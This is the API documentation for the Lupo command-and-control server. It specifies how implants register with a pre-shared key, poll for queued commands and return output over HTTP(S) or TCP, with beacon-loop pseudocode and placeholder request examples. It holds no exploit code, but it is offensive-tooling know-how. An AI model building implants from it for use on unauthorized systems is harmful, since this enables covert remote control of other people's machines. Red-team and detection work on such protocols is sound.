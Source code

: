 # Lupo C2 API

The Lupo C2 server is designed to be "modular" in the sense that any implant can integrate into Lupo, no matter what language, framework, or runtime just by simply following a baseline API implementation.

So no matter what you want to write your Lupo C2 implants in, as long as it speaks HTTP(S)/TCP and supports the ability to construct/parse JSON then it will work flawlessly with Lupo.

## HTTP(S) API
When Lupo serves HTTP(S) connections it can parse data from either GET/POST requests based on the implementation preference of the implant developer. Both expect and handle the same parameters the exact same way, the primary difference is how they are sent based on the request.

- Available Parameters:
    - psk (REQUIRED - ALWAYS) = Pre-Shared key generated by the Lupo C2 server. Copy this key and bundle it with your implant for authentication to Lupo. 
    - sessionID (REQUIRED - AFTER REGISTRATION) = this value is returned to implants after successful registration and is simply a unique integer to tell the implant what session it is associated with.
    - UUID (REQUIRED - AFTER REGISTRATION) = this a secondary value that is returned to implants after successful registration. UUIDs server a special purpose as the core server primarily performs lookup operations with the sessionID. This is easier for iteration and processing, but sessionID can be easily brute forced if someone wants to flood the C2 server with bad session data. The UUID constraint helps restrict this as a sort of secondary PSK/unique identifier while allowing the core server to use the sessionID for everything else.
    - arch = the architecture of the implant's host OS system. By default this will be extracted from the UserAgent string if nothing is provided. This can be any string the implant wishes to provide, but is expected to be representative of OS/Architecture data.
    - update = an update interval in seconds. This should be the interval at which an implant will reach out to make requests. If not provided it will default to 0 server-side which means that Lupo will be unable to calculate the implant connection status if it dies. If provided the server will calculate the last check in on each update interval to determine if the implant is still active.
    - data = a data payload, usually any response that the implant wants to send back. This will be reflected to the operator of the server and requires no special format.
    - functions = any additional functions built into the implant that it wants to register in Lupo. If your implant implements a custom function you can tell Lupo about it via JSON by specifying {"name":"description"} in this parameter. You can include multiple key value pairs to register any number of custom functions. These will be displayed to the user of the server when interacting with a session and executing the "load" command.
    - register = boolean true/false. Defaults to false, but if passed in as true it will attempt to register a new session.

Below are some examples of the bare minimum parameters needed to get up and running. By default Lupo will always serve the next command in the command queue if the request is not a registration request. As such your basic implant loop should function as follows:

```
REGISTER_AGENT()
WHILE:
    IF OUTPUT_DATA:
        SEND_DATA(OUTPUT_DATA)

    CMD = GET_NEXT_CMD()

    IF CMD:
        PROCESS_CMD(CMD)
```

Once you've got an implant working, try using some of the other parameters to enhance the functionality!

### GET Requests

- Register a session:
    - Request:`https://myserver:1337/?psk=<psk>&register=true`
    - Response: `{"sessionID":"0","UUID":"00000000-0000-0000-0000-000000000000"}`
- Get next command:
    - Request: `https://myserver:1337/?psk=<psk>&sessionID=<ID>&UUID=<UUID>`
    - Response: `{"cmd":"<some_command>"}`
- Send output data:
    - Request: `https://myserver:1337/?psk=<psk>&sessionID=<ID>&UUID=<UUID>&data=<some_data>`
    - Response: `{"cmd":"<some_command>"}`
    - Data Output in Lupo: `lupo ☾ <some_data>` 

### POST Requests

- Register a session:
    - Request:`https://myserver:1337/
        - BODY: `psk=<psk>&register=true`
    - Response: `{"sessionID":"0","UUID":"00000000-0000-0000-0000-000000000000"}`
- Get next command:
    - Request: `https://myserver:1337/
        - BODY: `psk=<psk>&sessionID=<ID>&UUID=<UUID>`
    - Response: `{"cmd":"<some_command>"}`
- Send output data:
    - Request: `https://myserver:1337/
        - BODY: `psk=<psk>&sessionID=<ID>&UUID=<UUID>&data=<some_data>`
    - Response: `{"cmd":"<some_command>"}`
    - Data Output in Lupo: `lupo ☾ <some_data>` 


## TCP API
When Lupo serves TCP connections it expects the connecting implant to send all data in JSON to provide structure to the raw connection. This JSON structure is then mapped to expected parameters based on a TCPData structure. Outside of slight naming differences, all the parameters/responses are exactly the same and handled the exact same way as the HTTP(S) API making it easy to adapt implant connections to multiple protocols. NOTE: while the slight variation of names in the external interface does matter, capitalization does not. For example "PSK" will be accepted the same as "psk".

- Available Parameters:
    - psk (REQUIRED - ALWAYS) = Pre-Shared key generated by the Lupo C2 server. Copy this key and bundle it with your implant for authentication to Lupo. 
    - sessionID (REQUIRED - AFTER REGISTRATION) = this value is returned to implants after successful registration and is simply a unique integer to tell the implant what session it is associated with.
    - UUID (REQUIRED - AFTER REGISTRATION) = this a secondary value that is returned to implants after successful registration. UUIDs server a special purpose as the core server primarily performs lookup operations with the sessionID. This is easier for iteration and processing, but sessionID can be easily brute forced if someone wants to flood the C2 server with bad session data. The UUID constraint helps restrict this as a sort of secondary PSK/unique identifier while allowing the core server to use the sessionID for everything else.
    - ImplantArch = the architecture of the implant's host OS system. By default this will be extracted from the UserAgent string if nothing is provided. This can be any string the implant wishes to provide, but is expected to be representative of OS/Architecture data.
    - update = an update interval in seconds. This should be the interval at which an implant will reach out to make requests. If not provided it will default to 0 server-side which means that Lupo will be unable to calculate the implant connection status if it dies. If provided the server will calculate the last check in on each update interval to determine if the implant is still active.
    - data = a data payload, usually any response that the implant wants to send back. This will be reflected to the operator of the server and requires no special format.
    - AdditionalFunctions = any additional functions built into the implant that it wants to register in Lupo. If your implant implements a custom function you can tell Lupo about it via JSON by specifying {"name":"description"} in this parameter. You can include multiple key value pairs to register any number of custom functions. These will be displayed to the user of the server when interacting with a session and executing the "load" command.
    - register = boolean true/false. Defaults to false, but if passed in as true it will attempt to register a new session.

Below are some examples of the bare minimum parameters needed to get up and running. By default Lupo will always serve the next command in the command queue if the request is not a registration request. As such your basic implant loop should function as follows:

```
REGISTER_AGENT()
WHILE:
    IF OUTPUT_DATA:
        SEND_DATA(OUTPUT_DATA)

    CMD = GET_NEXT_CMD()

    IF CMD:
        PROCESS_CMD(CMD)
```

Once you've got an implant working, try using some of the other parameters to enhance the functionality!

### TCP Connection Examples
- Register a session:
    - Request:`connect to myserver 1337`
        - PAYLOAD: `{"psk":"<psk>","register":true}`
    - Response: `{"sessionID":"0","UUID":"00000000-0000-0000-0000-000000000000"}`
- Get next command:
    - Request:`connect to myserver 1337`
        - PAYLOAD: `{"psk":"<psk>","sessionID":<ID>,"UUID":"<UUID>"}`
    - Response: `{"cmd":"<some_command>"}`
- Send output data:
    - Request:`connect to myserver 1337`
        - PAYLOAD: `{"psk":"<psk>","sessionID":<ID>,"UUID":"<UUID>","data":"<some_data>"}`
    - Response: `{"cmd":"<some_command>"}`
    - Data Output in Lupo: `lupo ☾ <some_data>` 